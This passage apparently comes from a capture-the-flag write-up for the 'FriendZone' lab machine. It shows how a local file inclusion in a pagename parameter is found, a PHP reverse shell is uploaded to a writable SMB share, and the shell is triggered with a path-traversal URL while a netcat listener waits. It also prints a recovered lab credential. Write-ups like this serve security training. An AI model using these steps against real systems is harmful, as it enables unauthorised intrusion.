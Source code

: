 ![image](https://user-images.githubusercontent.com/10210108/81448858-16d83980-914d-11ea-9afc-cfa72ad6bb73.png)

I went to uploads.friendzone.red and tried uploading various file types (jpg,png,php) successfully but I was not able to view them in /files or on dashboard.php. I decided to try another approach...

Reviewing the gobuster output again I noticed that along with dashboard.php there is also a page called timestamp.php. Browsing directly to this page showed the timestamp in epoch, like what was showing on dashboard.php. I determined that the parameter being passed to pagename was another php page (without the .php).

![image](https://user-images.githubusercontent.com/10210108/81483522-e7890180-920c-11ea-8210-84c64f810a02.png)

I'm also able to view other files such as login.php by typing in the pagename without the .php.

![image](https://user-images.githubusercontent.com/10210108/81483702-1eabe280-920e-11ea-8d99-6d35b763801b.png)

I'm also able to view php files in other directories which confirms that this site is vulnerable to LFI.

![image](https://user-images.githubusercontent.com/10210108/81484289-67659a80-9212-11ea-933a-6b7c2da52498.png)

I had read/write access to the "Development" share as shown by the output of the smbmap command. That meant I could write a reverse shell to that share and access it via the pagename parameter. 

I copied a php reverse shell file into my working directed, updated the port and IP, and copied it to the Development share.

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
vim rshell.php # add port and ip
smbclient //10.10.10.123/Development
put rshell.php
```

I started a netcat listener on port 4200
```
netcat -lvnp 4200
```

Also in the smbmap output; The comment shown for the "Files" folder was "FriendZone Samba Server Files /etc/Files". After putting two and two together I guessed that the Development share was probably located similarly at /etc/Development.

```
https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=../../../../../../etc/Development/rshell
```

Once the reverse shell was accessed at /etc/Development via the pagename parameter, I was in. 

![image](https://user-images.githubusercontent.com/10210108/81484692-b5c86880-9215-11ea-830d-75cf877d1d44.png)


## Steps (root/system)

Enumerating the file system I came across a file called mysql_data.conf with the username and password of friend:Agpyu12!0.213$
